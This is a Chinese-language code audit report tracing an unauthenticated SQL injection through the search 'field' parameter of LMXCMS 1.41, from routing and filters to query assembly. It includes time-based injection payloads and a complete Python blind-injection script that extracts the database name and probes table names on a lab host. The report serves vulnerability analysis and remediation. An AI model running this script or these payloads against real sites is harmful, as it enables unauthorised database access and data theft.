- # LMXCMS 1.41 前台搜索未鉴权 SQL 注入代码报告

  审计日期: 2026-04-13  
  目标项目: `D:\phpstudy_pro\WWW\202106281714266126\lmxcms1.41`  
  分析目标: 前台搜索接口 `/index.php?m=Search&a=index` 的 SQL 注入形成链路、代码级成因、过滤影响与可利用性判断

  ## 1. 结论摘要

  该漏洞的根因不是单点“忘记转义”，而是整个搜索链路把用户可控的 `field` 参数当作 SQL 字段表达式直接拼接进 `LIKE` 条件中，同时底层仍使用字符串拼接 + `mysql_*` 执行。

  从代码审计角度，这条漏洞链的完整路径是：

  1. 前台路由分发到 `SearchAction`
  2. `SearchAction` 从 `$_GET` 中读取 `field`
  3. 所谓过滤只做了 `strip_tags`、`urldecode`、`addslashes`、关键字黑名单
  4. `SearchModel::sqlStr()` 把 `field` 直接拼到 `$v." like '%".$search['keywords']."%'"`
  5. `db::where()` 把这段拼好的表达式组装到 `WHERE`
  6. `db::countDB()` / `db::selectDB()` 拼出完整 SQL
  7. `db::query()` 直接执行并把 MySQL 错误回显到前端

  从可利用性角度，这条点位有两个重要特征：

  - **错误回显型 SQL 注入成立**
  - **布尔/时间型条件推断成立**

  但同时，这个点位也有两个约束：

  - `field` 会先被 `explode(',')` 按逗号拆分
  - 黑名单会拦截 `select/from/insert/update/drop/...`

  因此：

  - 常见的 `extractvalue(1,concat(...))`、`updatexml(...)` 一类报错取数 payload 很容易被“拆坏”
  - 但不依赖逗号子查询的布尔型/时间型 payload 仍然可稳定利用

  ## 2. 入口与路由分发

  前台统一入口是 [index.php](D:/phpstudy_pro/WWW/202106281714266126/lmxcms1.41/index.php)，其加载 [inc/run.inc.php](D:/phpstudy_pro/WWW/202106281714266126/lmxcms1.41/inc/run.inc.php)。

  核心分发代码位于：

  - `inc/run.inc.php:68-73`

  ```php
  $extendEnt = RUN_TYPE == 'extend' ? 'AExtend' : 'Action';
  $m=isset($_GET['m']) ? ucfirst(strtolower($_GET['m'])) : 'Index';
  if(!class_exists($m.$extendEnt)){ $m = 'Index'; }
  eval('$action=new '.$m.$extendEnt.'();');
  eval('$action->run();');
  ```

  

  因此如下请求：

  ```text
  /index.php?m=Search&a=index&...
  ```

  会进入：

  - 控制器类: `c/index/SearchAction.class.php`
  - 方法: `SearchAction::index()`

  ## 3. 漏洞源头：用户输入如何进入搜索参数

  参数接收和预处理位于：

  - `c/index/SearchAction.class.php:67-88`

  关键代码：

  

  ```php
  $_GET = filter_strs($_GET);
  $data = p(2,1,1);
  $this->param['keywords'] = string::delHtml($data['keywords']);
  $this->param['classid'] = (int)$data['classid'];
  $this->param['mid'] = (int)$data['mid'];
  $this->param['tem'] = $data['tem'];
  $this->param['field'] = $data['field'];
  $this->param['time'] = $data['time'] ? $data['time'] : $this->config['search_time'];
  ```

  这里的关键事实是：

  - `field` 完全由用户控制
  - 程序没有把 `field` 限定在固定字段白名单，例如 `title,keywords,description`
  - `field` 在进入模型前没有被强制映射成预定义列名

  这决定了后面的 SQL 结构会直接受用户影响。

  ## 4. 所谓过滤为什么不是有效防护

  ### 4.1 `filter_strs()` 只做弱清洗

  位置：

  - `function/common.php`

    

  ```php
  $data = urldecode($data);
  $data = strip_tags($data);
  $data = str_replace('%','',$data);
  ```

  问题：

  - 这只能去掉 HTML 标签和 `%`
  - 对 SQL 结构注入没有实质防护
  - 对字段表达式位置的注入尤其无效

  ### 4.2 `p(2,1,1)` 只是递归 `addslashes` + 黑名单

  位置：

  - `function/common.php:`

  

  `addslashes()` 对传统字符串上下文有一定影响，但这里注入点不是典型的 `'...user input...'` 字符串拼接，而是字段/表达式位置，所以保护作用很弱。

  ### 4.3 `filter_sql()` 是关键字黑名单

  位置：

  - `function/common.php10-224`

  

  这层过滤带来的结果不是“修复了 SQLi”，而是：

  - 拦掉了一部分显眼 payload
  - 让很多基于 `select/from` 的错误回显或子查询 payload 直接失败
  - 误导测试者以为“不好利用 = 不存在漏洞”

  但实际上，**不含这些关键字的条件表达式仍然可以进入 SQL**，例如：

  - `sleep(...)`
  - `1=1`
  - `title like 0x...`
  - `database()=0x...`

  ## 5. 漏洞真正形成的位置：`SearchModel::sqlStr()`

  该函数位于：

  - `m/SearchModel.class.php:96-152`

  最关键的漏洞代码位于：

  - `m/SearchModel.class.php:130-135`

    

  ```php
  $search['field'] = explode(',',$search['field']);
  foreach($search['field'] as $v){
      $like[] = $v." like '%".$search['keywords']."%'";
  }
  $param['like'] = '('.implode(' or ',$like).')';
  ```

  这里存在三个直接后果：

  ### 5.1 `field` 被直接当成 SQL 字段表达式使用

  例如用户传：

  ```text
  field=title
  ```

  则会形成：

  ```sql
  title like '%keyword%'
  ```

  ### 5.2 `field` 不只是“字段名”，而是可以变成表达式

  如果用户传：

  ```text
  field=title) or sleep(5) or (title
  ```

  则会形成：

  ```sql
  title) or sleep(5) or (title like '%keyword%'
  ```

  也就是说，程序没有在“字段名”与“表达式”之间做任何隔离。

  ### 5.3 逗号会先把 payload 拆坏

  因为代码先执行：

  ```php
  explode(',',$search['field'])
  ```

  所以像下面这种 payload：

  ```text
  extractvalue(1,concat(0x7e,database()))
  ```

  会先被拆成多段，后续每一段还会再被拼接 ` like '%关键词%'`，导致数据库看到的函数参数结构已经不是原始 payload。

  这就是为什么很多报错函数在这个注入点会出现“参数个数错误”，而不是正常回显你想要的数据。

  

  ## 7. SQL 是如何被进一步组装的

  ### 7.1 `searchCoutn()` 会先触发一次带漏洞的计数查询

  位置：

  - `c/index/SearchAction.class.php`

    

  - `m/SearchModel.class.php:89-93`

    

  ```php
  $arr = $this->searchModel->getSerachField($this->param);
  $count = $this->searchModel->searchCoutn($arr);
  ```

  ```php
  $param = $this->sqlStr($searchInfo);
  $param['force'] = 'title';
  return parent::countModel($param);
  ```

  也就是说，**页面刚进入时，漏洞 SQL 已经执行了**，甚至还没走到列表渲染阶段。

  ### 7.2 `countModel()` -> `countDB()` -> `where()` 拼接完整查询

  位置链路：

  - `class/Model.class.php:36-38`
  - `class/db.class.php:27-33`
  - `class/db.class.php:170-190`

  `countDB()`:

  

  ```php
  $We = $this->where($param);
  $sql="SELECT count(1) FROM ".DB_PRE."$tab $We";
  ```

  `where()`:

  

  ```php
  if($param['where']){
      $We =  ' WHERE '.implode(' AND ',$We);
  }
  ...
  if($param['like']){
      $like = $param['where'] ? ' AND '.$param['like'] : ' WHERE '.$param['like'];
  }
  ...
  return $We.' '.$like.' '.$order.' '.$limit;
  ```

  所以带漏洞的 `$param['like']` 最终会被拼进 `WHERE ... AND (...)` 结构中。

  ## 8. 这条漏洞为什么会直接回显 MySQL 报错

  底层执行位于：

  - `class/db.class.php:148-153`

  ```php
  $query=mysql_query($sql);
  if(!$query){
      exit('sql语句有误'.mysql_error());
  }
  ```

  这意味着：

  - 语法错误不会被吞掉
  - MySQL 原始错误会直接返回给浏览器

  因此你在浏览器里访问：

  ```text
  /index.php?m=Search&a=index&classid=5&keywords=11111111111&field=title%27
  ```

  时看到：

  

  ```text
  sql语句有误You have an error in your SQL syntax ...
  ```

  

  ### `sleep(5)` 这类时间 payload 能打

  例如：

  ```text
  field=title) or sleep(5) or (title
  ```

  原因：

  - 不依赖逗号
  - 不依赖 `select/from`
  - 直接利用表达式位置注入布尔/时间逻辑

  写一个盲注脚本进行盲注数据库名称

  ```
  import requests
  import time
  
  BASE_URL = "http://192.168.50.1:8091/index.php"
  PARAMS_BASE = {
      "m": "Search",
      "a": "index",
      "classid": "5",
      "tem": "index",
      "keywords": "a"
  }
  SLEEP_TIME = 5
  THRESHOLD = 4
  
  
  def to_hex(s):
      return "0x" + s.encode().hex() + "25"  # 25 = %
  
  
  def check_delay(field_payload):
      params = PARAMS_BASE.copy()
      params["field"] = field_payload
      start = time.time()
      try:
          requests.get(BASE_URL, params=params, timeout=15)
      except:
          pass
      return time.time() - start
  
  
  def extract_string(sql_expr, max_len=50):
      result = ""
      chars = "abcdefghijklmnopqrstuvwxyz0123456789_-{}"
  
      for pos in range(1, max_len + 1):
          found = False
          for c in chars:
              test = result + c
              hex_val = to_hex(test)
              payload = f"title) or ({sql_expr} like {hex_val} and sleep({SLEEP_TIME})) or (title"
              elapsed = check_delay(payload)
              print(f"  测试: {test!r} -> {elapsed:.2f}s")
  
              if elapsed > THRESHOLD:
                  result = test
                  print(f"[+] 第{pos}位: {c}  当前结果: {result}")
                  found = True
                  break
  
          if not found:
              print(f"[*] 提取完成: {result}")
              break
  
      return result
  
  
  def get_tables(db_name):
      # 用like逐个猜表名，先枚举常见前缀
      print("\n[*] 开始枚举表名...")
      common_tables = ["flag", "lmx_flag", "lmx_admin", "admin", "user", "lmx_user"]
      for t in common_tables:
          hex_val = "0x" + t.encode().hex()
          payload = f"title) or ((select count(*) from information_schema.tables where table_name like {hex_val}) and sleep({SLEEP_TIME})) or (title"
          elapsed = check_delay(payload)
          print(f"  测试表名 {t!r} -> {elapsed:.2f}s")
          if elapsed > THRESHOLD:
              print(f"[+] 找到表: {t}")
              return t
      return None
  
  
  if __name__ == "__main__":
      print("=" * 50)
      print("[*] 开始爆库名...")
      db_name = extract_string("database()")
      print(f"\n[+] 数据库名: {db_name}")
  
  
  ```

  

  

  成功利用

  ## 11. 漏洞形成的根本原因

  从代码审计角度，这条漏洞形成不是单个函数的问题，而是以下设计叠加：

  1. 用户可控的 `field` 被当作 SQL 表达式使用  
     文件: `c/index/SearchAction.class.php:84-85`

  2. 程序没有做字段白名单映射  
     文件: `m/SearchModel.class.php:130-135`

  3. 全链路仍使用字符串拼接 SQL  
     文件: `class/db.class.php:27-33`, `class/db.class.php:81-90`, `class/db.class.php:170-190`

  4. 安全控制依赖黑名单而不是参数化  
     文件: `function/common.php:210-224`

  5. 数据库错误直接回显  
     文件: `class/db.class.php:149-153`

  ## 12. 相关文件总表

  - 路由分发: `inc/run.inc.php:68-73`
  - 控制器入口: `c/index/SearchAction.class.php:11-16`
  - 参数接收: `c/index/SearchAction.class.php:67-88`
  - 频率限制: `c/index/HomeAction.class.php:35-39`
  - 弱过滤入口: `function/common.php:171-224`
  - 搜索模型主逻辑: `m/SearchModel.class.php:96-152`
  - 受影响查询触发: `m/SearchModel.class.php:89-93`
  - ORM 封装层: `class/Model.class.php:29-38`
  - SQL 组装与执行: `class/db.class.php:27-33`, `class/db.class.php:81-90`, `class/db.class.php:148-190`
  - 栏目到数据表映射: `data/public/class.php:109-133`
  - 模型到数据表映射: `data/public/module.php:5-18`

  ## 13. 最终判断

  这条前台搜索漏洞从代码审计角度应被定性为：

  - **未鉴权 SQL 注入**